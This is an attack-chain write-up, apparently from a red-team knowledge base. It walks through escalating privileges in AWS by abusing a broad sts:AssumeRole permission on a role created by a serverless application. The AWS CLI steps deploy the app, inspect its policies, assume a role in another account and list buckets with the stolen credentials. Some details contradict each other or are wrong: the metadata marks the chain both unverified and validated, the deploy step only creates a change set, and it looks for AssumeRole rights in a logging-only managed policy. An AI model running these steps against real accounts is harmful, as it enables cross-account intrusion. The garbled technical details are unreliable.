

---
tags:
  - aws
  - iam
  - privilege-escalation
  - lambda
  - serverless
type: attack_chain
tools:
  - '[[tools/AWS-CLI]]'
  - '[[tools/SAM-CLI]]'
tactics:
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - AWS
  - Cloud
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Deploy-AWS-Serverless-Application]]'
  - '[[procedures/Review-IAM-Role-Policies]]'
  - '[[procedures/Exploit-AssumeRole-for-Privilege-Escalation]]'
step_count: 3
techniques:
  - '[[T1078.004]]'
  - '[[Abuse Elevation Control Mechanism]]'
updated_at: '2025-12-14T17:30:26.684Z'
description: >-
  A multi-stage attack exploiting an overly permissive IAM policy in the
  experimental-programmatic-access-ccft AWS Serverless Application to achieve
  privilege escalation by assuming arbitrary roles across the organization.
skill_level: intermediate
impact_level: high
id: f5f746ab-3786-4ba3-ace5-2325710560bc
validated: true
mitre_tactics:
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[T1078.004]]'
  - '[[Abuse Elevation Control Mechanism]]'
---
# Privilege Escalation via Overly Permissive IAM Policy in AWS Serverless Application

Multi-stage attack chain demonstrating exploitation of an IAM misconfiguration in the AWS Serverless Application Repository to gain elevated privileges across an AWS organization.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/AWS-CLI]]
- [[tools/SAM-CLI]]

### Target Environment

- AWS Account with permissions to deploy from Serverless Application Repository
- Required services: AWS Lambda, IAM, STS, Serverless Application Repository
- Network access: AWS API endpoints

### Initial Access Requirements

- AWS credentials with deploy permissions
- Access to the AWS Management Console or CLI
- No prior elevated access needed, but deploying account must be in the target organization

## Detailed Attack Procedures

### Step 1: Deploy the Application
procedure: [[procedures/Deploy-AWS-Serverless-Application]]

**Objective**: Deploy the vulnerable experimental-programmatic-access-ccft application to create the misconfigured IAM role.

**Instructions**: Use the AWS CLI to deploy the application from the Serverless Application Repository. First, ensure AWS CLI is configured with appropriate credentials:

```bash
aws configure
```

Then deploy the application:

```bash
aws serverlessrepo create-cloud-formation-change-set --application-id arn:aws:serverlessrepo:us-east-1:123456789012:applications~experimental-programmatic-access-ccft --stack-name experimental-app --capabilities CAPABILITY_IAM
```

Wait for deployment and note the created resources.

**Expected Output**: Stack creation success with Lambda function and IAM role deployed.

**Success Indicators**:
- Application stack status: CREATE_COMPLETE
- IAM role ARN for ExtractCarbonEmissionsFunction visible in console or output

### Step 2: Review IAM Role Policies
procedure: [[procedures/Review-IAM-Role-Policies]]

**Objective**: Identify the overly permissive sts:AssumeRole policy on the created IAM role.

**Instructions**: Retrieve the IAM role details using AWS CLI. Get the role ARN from the previous step, then:

```bash
aws iam get-role --role-name ExtractCarbonEmissionsFunction-role-xyz
```

List attached policies:

```bash
aws iam list-attached-role-policies --role-name ExtractCarbonEmissionsFunction-role-xyz
```

Get policy details to confirm '*' resource permission:

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::aws:policy/service-role/AWSLambdaBasicExecutionRole --version-id v1
```

**Expected Output**: Policy document showing "Action": "sts:AssumeRole", "Resource": "*".

**Success Indicators**:
- Policy confirms broad sts:AssumeRole permissions
- No permissions boundaries or restrictions in place

### Step 3: Exploit for Privilege Escalation
procedure: [[procedures/Exploit-AssumeRole-for-Privilege-Escalation]]

**Objective**: Use the role's credentials to assume arbitrary roles in the organization, escalating privileges.

**Instructions**: Obtain temporary credentials for the vulnerable role (e.g., via Lambda invocation or direct assumption if accessible). Then call STS AssumeRole on a target role:

```bash
aws sts assume-role --role-arn arn:aws:iam::TARGET-ACCOUNT:role/TargetRole --role-session-name exploit-session
```

Use the returned credentials to perform elevated actions, such as listing S3 buckets in another account:

```bash
AWS_ACCESS_KEY_ID=... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=... aws s3 ls
```

**Expected Output**: Assumed role credentials and successful execution of privileged commands.

**Success Indicators**:
- Temporary credentials obtained
- Access to resources in other accounts confirmed

## Attack Chain Summary

### Key Achievements

1. Successful deployment of vulnerable Serverless Application
2. Identification of permissive IAM policy
3. Privilege escalation to assume roles across the AWS organization

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[T1078.004]]
- [[Abuse Elevation Control Mechanism]]

### MITRE ATT&CK Tactics

- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T00:00:00Z*
